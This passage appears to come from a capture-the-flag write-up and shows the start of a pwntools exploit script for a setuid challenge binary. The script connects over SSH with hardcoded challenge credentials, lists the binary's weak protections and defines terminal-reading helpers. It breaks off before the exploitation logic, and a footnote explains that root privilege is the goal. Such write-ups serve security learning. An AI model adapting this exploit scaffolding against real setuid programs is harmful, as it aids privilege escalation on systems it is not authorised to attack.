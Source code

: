The final exploit script:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template app
from pwn import *
import random

# Set up pwntools for the correct architecture
exe = context.binary = ELF('app')


def local(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, stdin=PTY, raw=False, *a, **kw)

def remote():
    #return ssh("ctf", host="3.38.59.103", port=1234, password="ctf1234_smiley")
    # stty cols 29 rows 12
    p = process("sshpass -e ssh -tt ctf@3.38.59.103 -p 1234 'bash -i'", shell=True, env={"SSHPASS": "ctf1234_smiley"})
    p.sendlineafter("~$ ", "stty cols 29 rows 12")
    p.sendlineafter("~$ ", "./app")
    return p

def start(*a, **kw):
    if args.LOCAL:
        return local(*a, **kw)
    return remote(*a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

#### remote comms
WIDTH = 29
HEIGHT = 10

def read_mappa():
    begin = io.recvuntil(b"-"*WIDTH)
    read_map = io.recvuntil(b"-"*WIDTH)
    log.debug("REMOTE MAP:\n%s", read_map.decode("utf8", errors="ignore"))
    return begin + read_map

def send_data(data):
    if isinstance(data, str):
```

[^1]: The setup actually allowed you to get a terminal on the server. However, since the flag is only readable by root and the challenge binary is setuid, we still need to pwn the binary.